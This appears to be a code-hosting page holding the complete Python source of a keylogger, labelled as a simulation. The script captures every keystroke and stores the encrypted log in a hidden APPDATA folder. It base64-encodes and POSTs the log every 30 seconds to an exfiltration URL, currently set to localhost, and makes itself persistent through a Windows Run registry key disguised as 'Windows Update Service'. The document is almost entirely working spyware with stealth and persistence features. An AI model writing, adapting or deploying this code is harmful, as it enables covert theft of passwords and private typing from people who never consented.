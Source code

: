 <pre>
import os
import sys
import time
import threading
import base64
from cryptography.fernet import Fernet
from pynput import keyboard
import requests
import json

# === CONFIGURATION ===
LOG_DIR = os.path.join(os.getenv("APPDATA") or ".", ".syslogs")
LOG_FILE = os.path.join(LOG_DIR, "log.enc")
FERNET_KEY_FILE = os.path.join(LOG_DIR, "fernet.key")
EXFIL_URL = "http://localhost:5000/exfiltrate"  # Simulated remote server
KILL_COMBO = {keyboard.Key.ctrl_l, keyboard.Key.alt_l, keyboard.KeyCode(char='k')}
pressed_keys = set()

# === FERNET ENCRYPTION ===
def load_or_create_key():
    if not os.path.exists(FERNET_KEY_FILE):
        key = Fernet.generate_key()
        with open(FERNET_KEY_FILE, "wb") as f:
            f.write(key)
    else:
        with open(FERNET_KEY_FILE, "rb") as f:
            key = f.read()
    return Fernet(key)

fernet = load_or_create_key()

# === LOGGING ===
def encrypt_log(text):
    timestamped = f"{time.ctime()} | {text}"
    encrypted = fernet.encrypt(timestamped.encode())
    return encrypted

def save_log(data):
    os.makedirs(LOG_DIR, exist_ok=True)
    with open(LOG_FILE, "ab") as f:
        f.write(data + b"\n")

# === KEYLOGGER ===
def on_press(key):
    try:
        if hasattr(key, 'char') and key.char:
            log = encrypt_log(key.char)
        else:
            log = encrypt_log(str(key))
        save_log(log)

        # Detect kill switch
        if key in KILL_COMBO:
            pressed_keys.add(key)
            if pressed_keys == KILL_COMBO:
                print("[!] Kill combo detected. Exiting...")
                return False
    except Exception as e:
        print(f"Error: {e}")

def on_release(key):
    if key in pressed_keys:
        pressed_keys.remove(key)

# === SIMULATED EXFILTRATION ===
def exfiltrate():
    while True:
        if os.path.exists(LOG_FILE):
            with open(LOG_FILE, "rb") as f:
                content = f.read()
            try:
                # Simulate POST to a local server
                requests.post(EXFIL_URL, data={"data": base64.b64encode(content).decode()})
                print("[+] Data exfiltrated to localhost.")
            except:
                print("[!] Exfil failed. Server offline?")
        time.sleep(30)

# === STARTUP PERSISTENCE (Windows only) ===
def add_to_startup():
    if os.name != 'nt':
        return
    import winreg
    exe = sys.executable if sys.executable.endswith(".exe") else sys.argv[0]
    key = winreg.OpenKey(winreg.HKEY_CURRENT_USER, r"Software\Microsoft\Windows\CurrentVersion\Run", 0, winreg.KEY_SET_VALUE)
    winreg.SetValueEx(key, "Windows Update Service", 0, winreg.REG_SZ, exe)
    winreg.CloseKey(key)

# === MAIN ===
def main():
    print("[*] Keylogger started.")
    add_to_startup()

    # Start exfiltration thread
    threading.Thread(target=exfiltrate, daemon=True).start()

    # Start keylogger
    with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
        listener.join()

if __name__ == "__main__":
    main()
</pre>

